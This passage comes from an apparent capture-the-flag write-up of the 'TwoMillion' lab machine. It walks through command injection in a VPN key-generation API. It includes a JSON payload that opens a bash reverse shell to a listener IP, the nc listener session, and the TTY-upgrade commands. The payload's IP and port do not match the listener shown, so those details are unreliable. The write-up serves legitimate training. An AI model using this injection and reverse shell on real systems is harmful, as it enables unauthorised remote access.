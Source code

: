 So in my fury of testing before I looked up 0xdf's walkthrough I had found the endpoint to generate keys and tried to connect using them, but it was no luck. I thought the endpoint was just a distraction, but what 0xdf helped me realize in his post was that we needed to consider how the POST request was working. If the server was just dropping our input on the command line like `openvpn_generate.sh $username` then we could do a command injection on that.

### Command Injection > Reverse Shell

So let's try that by doing a test username of: `; whoami;`\
The first semicolon will end the first command then we put `whoami` as a simple command to see who the command is being ran as and the second semicolon to end.

<figure><img src="Images/TwoMillion/api_v1_admin_vpn_generate_whoami.png" alt=""><figcaption></figcaption></figure>

Let's start nc on our host on port 9001 and then drop a reverse shell through the command injection. [Revshells](https://revshells.com) is a good place to go for this. We basically just replace the `whoami` part of our previous command to the reverse shell command and our payload will look like:\


`{"username":"; bash -c 'bash -i >& /dev/tcp/10.10.14.179/2550 0>&1' ;"}`

Here we see on my host after sending the above command we do get a connection back to our host.

```console
toasty@parrot$ nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.10.14.231] from (UNKNOWN) [10.10.11.221] 43550
bash: cannot set terminal process group (1157): Inappropriate ioctl for device
bash: no job control in this shell
www-data@2million:~/html$ whoami
whoami
www-data
```

We then upgrade our shell to full TTY using one of the methods over at [Hacktricks](https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/full-ttys)\


```
python3 -c 'import pty; pty.spawn("/bin/bash")'

(inside the nc session) CTRL+Z;stty raw -echo; fg; ls; export SHELL=/bin/bash; export TERM=screen; stty rows 38 columns 116; reset;
```

### Su to Admin

Let's take a look around from here. We can see that we appear to be in /var/www/html and we can view the files in this directory:
